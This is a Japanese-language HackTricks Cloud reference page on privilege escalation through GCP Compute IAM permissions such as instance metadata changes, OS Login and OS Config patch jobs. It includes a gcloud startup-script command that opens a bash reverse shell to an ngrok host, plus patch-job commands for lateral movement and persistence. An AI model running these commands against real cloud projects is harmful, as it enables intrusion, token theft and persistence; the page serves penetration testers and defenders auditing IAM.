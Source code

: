 # GCP - Compute Privesc

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングトリックを共有するためにPRを提出して** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリに。

</details>

## Compute

ComputeとVPC（ネットワーク）に関する詳細情報は、以下をチェックしてください：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
インスタンスのメタデータを変更する必要がある特権昇格攻撃をすべて実行するには、**インスタンスにアタッチされたSAに対して`actAs`権限が必要**です。SAが既にアタッチされていても必要です！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

この権限を持つと、**インスタンス**の**メタデータ情報を変更**し、**ユーザーの認証キーを変更**したり、**sudo権限を持つ新しいユーザーを作成**することができます。したがって、任意のVMインスタンスにSSH経由でアクセスして、インスタンスが実行されているGCPサービスアカウントを盗むことができます。\
制限事項:

* デフォルトでVMインスタンスで実行されているGCPサービスアカウントは**非常に限られたスコープ**を持っています
* ログインするために**SSHサーバーに接続できる必要**があります

この権限を悪用する方法の詳細については、以下をチェックしてください：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

新しい起動スクリプトを追加してインスタンスを再起動することで、この攻撃を実行することもできます。
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

この権限は、前の権限と同じ特権をプロジェクト全体ではなく特定のインスタンスに与えます。前のセクションと同じ脆弱性と制限が適用されます。

### `compute.instances.setIamPolicy`

この種の権限を持つと、前の権限を持つロールを自分自身に付与し、それを悪用して特権を昇格させることができます。

### **`compute.instances.osLogin`**

インスタンスでOSLoginが有効になっている場合、この権限を使用して単に **`gcloud compute ssh [INSTANCE]`** を実行してインスタンスに接続できます。インスタンス内で root 権限を持ちません。

### **`compute.instances.osAdminLogin`**

インスタンスでOSLoginが有効になっている場合、この権限を使用して単に **`gcloud compute ssh [INSTANCE]`** を実行してインスタンスに接続できます。インスタンス内で root 権限を持ちます。

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

割り当てられたサービスアカウントを持つ仮想マシンを作成し、そのサービスアカウントのトークンを盗み、特権を昇格させるためにメタデータにアクセスすることが可能です。

この方法の悪用スクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)で見つけることができます。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** または **`osconfig.patchJobs.exec`** 権限がある場合、[**パッチジョブまたはデプロイメント**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) を作成できます。これにより、環境内を横断移動し、プロジェクト内のすべてのコンピュートインスタンスでコードを実行できます。

手動でこれを悪用する場合は、[パッチジョブ](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) または [デプロイメント](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) を作成する必要があります。パッチジョブを実行するには:

`gcloud compute os-config patch-jobs execute --file=patch.json`

パッチデプロイメントを展開するには:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

[patchy](https://github.com/rek7/patchy) のような自動化ツールが、緩い権限を検出して自動的に横断移動することができます。

**これを永続化のためにも悪用できます。**

### `compute.machineImages.setIamPolicy`

コンピュートイメージに追加の権限を付与します。

### `compute.snapshots.setIamPolicy`

ディスクスナップショットに追加の権限を付与します。

### `compute.disks.setIamPolicy`

ディスクに追加の権限を付与します。

### アクセススコープのバイパス

このリンクに従うと、アクセススコープをバイパスするためのいくつかの[**アイデア**](../)が見つかります。

### GCP Computeインスタンスでのローカル特権昇格

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
